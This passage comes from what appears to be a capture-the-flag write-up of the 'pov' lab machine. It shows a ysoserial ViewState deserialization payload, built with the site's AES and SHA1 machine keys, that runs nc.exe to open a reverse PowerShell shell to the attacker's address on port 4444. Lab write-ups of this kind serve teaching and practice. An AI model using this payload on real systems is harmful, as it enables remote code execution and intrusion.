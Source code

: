 - And we received the connection:

![img_4.png](img/img_4.png)

- We can create a simple reverse shell by hosting the `nc.exe` file and pull it from the target machine (since `dev.pov.htb` does not interact with the internet)

- Payload:

```
.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe cmd /c c:\\windows\\temp\\nc.exe 10.10.14.37 
4444 -e powershell" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" 
--decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" 
--validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

- Going back to the `nc` listener:

![img_5.png](img/img_5.png)


### 2.2 PSCredential
